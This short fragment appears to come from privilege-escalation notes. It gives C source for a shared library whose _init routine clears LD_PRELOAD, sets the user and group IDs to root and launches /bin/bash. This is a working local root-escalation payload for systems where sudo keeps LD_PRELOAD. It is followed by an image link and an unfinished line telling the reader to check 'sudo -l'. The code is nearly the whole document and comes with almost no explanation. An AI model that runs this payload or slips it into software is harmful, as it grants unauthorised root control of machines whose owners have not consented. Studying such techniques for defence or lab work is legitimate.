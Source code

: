 ```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```


![image](https://user-images.githubusercontent.com/96658935/147622984-7193ceee-663b-4649-b16c-65016f201af4.png)


Whne you run sudo -l and see this output do the following:
